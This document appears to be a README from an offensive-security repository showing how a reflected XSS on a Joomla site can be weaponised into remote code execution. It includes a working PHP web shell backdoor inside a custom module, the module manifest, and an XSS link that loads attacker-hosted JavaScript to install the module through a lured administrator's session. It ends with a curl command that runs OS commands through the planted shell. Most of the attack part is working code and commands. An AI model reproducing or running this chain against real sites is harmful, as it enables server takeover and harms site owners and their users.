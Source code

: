 # [RCE] Install Module

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create backdoored CMS module] backdoor source code

    * **NOTE**: update/customize PHP backdoor in `mod_RCE_PoC.php`

    (`mod_RCE_PoC.xml`)

    ```
    <?xml version="1.0" encoding="utf-8"?>
    <extension type="module" version="3.8" client="site" method="upgrade">
    	<name>Joomla RCE PoC</name>
    	<creationDate>Feb 2024</creationDate>
    	<author>test</author>
    	<authorEmail>test@localhost</authorEmail>
    	<authorUrl>https://localhost</authorUrl>
    	<copyright>test</copyright>
    	<version>1.0</version>
    	<files>
    		<filename module="mod_RCE_PoC">mod_RCE_PoC.php</filename>
    		<filename>mod_RCE_PoC.xml</filename>
    	</files>
    </extension>
    ```

    (`mod_RCE_PoC.php`)

    ```
    <?php
    if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
    ?>
    ```

2. [create backdoored CMS module] create Joomla module

    ```
    zip mod_RCE_PoC.zip mod_RCE_PoC.xml mod_RCE_PoC.php
    ```

3. [setup exploit] change payload variable values (`installModuleJoomla.js`)

    `exploitURL` - URL of Joomla module (containing backdoor) to be installed on target site

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/path"`)

4. [setup exploit] setup web server (to serve the payload/module)

5. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.19/administrator

6. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.15/installModuleJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.15` - web server hosting payload

7. [post exploit] execute OS command

    ```
    curl -s "http://192.168.5.19/modules/mod_rce_poc/mod_RCE_PoC.php?pass=test&cmd=id" | head -n 1
    ```

    * **NOTE**: module URL constructed based on values specified in installed module

8. [uninstall module] uninstall module via GUI

    *Joomla ➔ System ➔ [Manage] Extensions ➔ (sort by latest ID) ➔ (mark checkbox) Joomla RCE PoC ➔ Uninstall ➔ Yes*

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 7 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/InstallModule/screenshots/Joomla_-_install_module_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/InstallModule/screenshots/Joomla_-_install_module_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/a4f01269-480f-498c-a5ac-b437d0364d78
